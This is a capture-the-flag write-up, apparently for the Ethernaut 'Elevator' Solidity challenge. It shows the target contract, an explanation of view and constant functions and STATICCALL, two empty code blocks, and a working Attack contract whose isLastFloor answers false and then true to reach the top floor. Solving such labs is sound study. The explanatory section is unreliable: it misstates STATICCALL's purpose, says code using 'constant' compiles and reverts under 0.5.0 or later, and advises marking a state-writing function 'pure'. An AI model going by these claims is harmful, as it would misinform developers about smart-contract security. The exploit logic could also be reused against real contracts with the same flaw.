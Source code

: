 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor. The **goTo** function is used to move the elevator to a specified floor. The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

## Missing State-Modifying Functions

Smart contracts are self-executing programs that automatically enforce the rules and regulations of a contract. One of the main advantages of smart contracts is that they are transparent and immutable, but this also means that once deployed, the code cannot be changed. Therefore, it is important to ensure that the code is secure before deployment.

One potential security pitfall in Solidity is the use of state-modifying functions that are incorrectly labelled as **constant/pure/view** functions. In Solidity versions prior to 0.5.0, it was possible to modify state variables within a constant/pure/view function using assembly code. However, in solc 0.5.0 and later versions, this is no longer possible due to the use of the **STATICCALL** opcode.

The STATICCALL opcode is a **read-only call** that is similar to the CALL opcode, but with the added constraint that **it does not modify the state of the contract**. This opcode was introduced to **improve gas efficiency by allowing the EVM to avoid the overhead of tracking the modifications made by a function**. However, this also means that any state-modifying code that is executed within a function labelled as constant/pure/view will now result in a revert.

For example, consider the following Solidity code:

```solidity
pragma solidity >=0.5.0;

contract MyContract {

  uint256 public myVar;

  function myFunction(uint256 _value) public constant returns (uint256) {
      myVar = _value;
      return myVar;
  }
}
```
This code defines a contract with a public state variable myVar and a state-modifying function myFunction that sets the value of myVar. However, the myFunction function is labelled as constant, which is incorrect because it modifies the state of the contract.

When this contract is compiled with solc 0.5.0 or later, attempting to call the myFunction function will result in a revert because of the use of the STATICCALL opcode. The correct way to label this function would be to remove the constant keyword and label it as **pure** instead, since it does not read or modify the state of the contract.

## Security Practice

```solidity
```

```solidity
```

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }
}
```

In our attack contract, firstly we defined an interface named **IElavator** which will help us to call **goTo()** function from the target contract. Secondly, we have boolean type of a **x** variable which defined as false when the defination. Next, there is **isLastFloor()** function which will have call from our *goTo()* function to check the last floor. But, when its first check, the function returns false and bypass the  `! building.isLastFloor(_floor)` statement. In the second check, it returns true and set top vairable as true. Thus, we will solve the challenge.

